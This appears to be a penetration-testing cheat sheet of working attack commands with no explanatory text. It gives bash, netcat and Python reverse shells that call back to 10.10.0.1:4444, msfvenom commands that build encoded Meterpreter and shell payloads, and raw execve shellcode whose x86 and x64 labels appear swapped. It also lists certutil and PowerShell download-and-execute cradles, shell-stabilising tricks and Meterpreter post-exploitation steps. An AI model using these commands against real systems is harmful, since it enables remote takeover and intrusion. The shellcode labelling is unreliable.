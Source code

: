 sudo python3 -m http.server 80
## Linux reverse shell

<a href="https://weibell.github.io/reverse-shell-generator/">Reverse Shell Generator</a><br>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">PayloadsAllTheThings Cheatsheet <3</a>
```bash
bash -i >& /dev/tcp/10.10.0.1/4444 0>&1
nc -e /bin/bash 10.10.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.1 4444 >/tmp/f
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f exe > reverse.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
-e x86/shikata_ga_nai -i 25

Linux x86 /bin/sh execve
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
Linux x64 /bin/sh execve
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80


```
## Interactive shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
/bin/sh -i

perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')

CTRL-Z
stty raw -echo
fg
export TERM=xterm

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm

rlwrap nc -vlnp 1234
```
## Download files
```powershell
certutil.exe -urlcache -split -f http:// .exe
iwr http:// -outfile .exe
powershell.exe IEX (New-Object Net.WebClient).DownloadFile("")
```
## Download and run powershell script
```powershell
powershell.exe IEX (New-Object Net.WebClient).DownloadString("")
IEX((New-Object Net.WebClient).DownloadString(""))
powershell.exe -e 
```
<a href="https://raikia.com/tool-powershell-encoder">Powershell Encoder</a>
  
## Powershell.exe Bit
```powershell
[Environment]::Is64BitProcess

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe (32bit)
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe (32bit -> 64bit)
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe (64bit)
```
## Meterpreter
```
use post/windows/manage/migrate
post/windows/manage/archmigrate
run post/multi/recon/local_exploit_suggester
set AUTORUNSCRIPT multi_console_command -r /root/autoruncommands.rc
ps ; migrate
```
